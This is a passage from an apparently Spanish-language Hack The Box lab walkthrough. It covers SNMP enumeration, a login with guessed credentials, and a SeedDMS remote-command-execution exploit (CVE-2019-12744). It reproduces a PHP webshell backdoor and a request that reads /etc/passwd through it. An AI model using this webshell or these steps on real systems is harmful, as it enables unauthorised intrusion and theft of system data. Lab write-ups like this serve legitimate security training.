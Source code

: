![[Pasted image 20241009172929.png]]
*Aquí podemos ver información respecto a RCE con snmp...*

```r
❯ snmpbulkwalk -v2c -c public  10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
NET-SNMP-EXTEND-MIB::nsExtendCommand."memory" = STRING: /usr/bin/free
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
```
*Ahora podemos seguir viendo ese proceso.*

```r
❯ snmpbulkwalk -v2c -c public  10.10.10.241 1
UCD-SNMP-MIB::dskPath.2 = STRING: /var/www/html/seeddms51x/seeddms
```
*Hemos podido ver una ruta...*

![[Pasted image 20241009173911.png]]
*Podemos ver que si aplicamos la ruta a una de las webs que tenemos podemos ver un panel de login...*

![[Pasted image 20241009174233.png]]
*Ahora probamos con las credenciales michelle:michelle*

![[Pasted image 20241009174319.png]]
*Ahora podemos ver que estamos dentro del panel...*

```r
❯ searchsploit seeddms
SeedDMS versions < 5.1.11 - Remote Command Execution |php/webapps/47022.txt
```
*Podemos ver este exploit que es interesante y vamos a tratar con el...*

```r
❯ searchsploit -m php/webapps/47022.txt
  Exploit: SeedDMS versions < 5.1.11 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/47022
     Path: /usr/share/exploitdb/exploits/php/webapps/47022.txt
    Codes: CVE-2019-12744
 Verified: False
File Type: ASCII text
Copied to: /home/user/HTB/Pit/scripts/snmpclitools/snmp-shell/47022.txt
```
*Nos llevamos el exploit...*

```r
  13   │ Step 1: Login to the application and under any folder add a document.
  14   │ Step 2: Choose the document as a simple php backdoor file or any backdoor/webshell could be used.
  15   │ 
  16   │ PHP Backdoor Code:
  17   │ <?php
  18   │ 
  19   │ if(isset($_REQUEST['cmd'])){
  20   │         echo "<pre>";
  21   │         $cmd = ($_REQUEST['cmd']);
  22   │         system($cmd);
  23   │         echo "</pre>";
  24   │         die;
  25   │ }
  26   │ 
  27   │ ?>
  28   │ 
  29   │ Step 3: Now after uploading the file check the document id corresponding to the document.
  30   │ Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.
  31   │ 
```